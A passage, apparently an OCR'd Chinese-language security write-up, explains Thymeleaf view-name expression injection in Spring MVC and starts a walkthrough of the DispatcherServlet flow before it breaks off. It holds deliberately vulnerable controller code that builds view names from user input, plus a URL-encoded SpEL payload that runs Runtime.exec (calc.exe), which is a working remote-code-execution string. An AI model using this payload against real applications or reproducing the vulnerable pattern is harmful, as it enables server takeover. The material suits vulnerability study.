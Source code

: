 * 一个是注入点在selector：

```java
@Controller
public class TestController {
    @PostMapping("/vuln")
    public String test(@RequestParam String payload) {
        return "index::"+payload;
    }
}
```

如果是GET注入点，需要URL编码，不然Tomcat高版本（9.x）会报RFC错误（有`&_`这种字符）

理论上payload都能用以下：

```java
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d__::.x
```

* 除此以外，还有一个特别的，注入点在URL path，用@PathVariable接收参数

```java
@Controller
public class TestController {
    @GetMapping("/vuln/{payload}")
    public void test(@PathVariable String payload) {
    }
}
```





## 原理解析

这里以如下Controller和payload做测试

```java
@Controller
public class TestController {
    @PostMapping("/vuln")
    public String test(@RequestParam String payload) {
        return payload+"::unsafe";
    }
}
```

```http
__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc.exe%22).getInputStream()).next()%7d__::.x
```

Spring MVC 采用 **前端控制器（DispatcherServlet）** 作为核心组件，它负责接收请求、调用相应的 `Controller` 处理业务逻辑，并最终通过 **视图解析器（ViewResolver）** 渲染视图。

### 前情提要
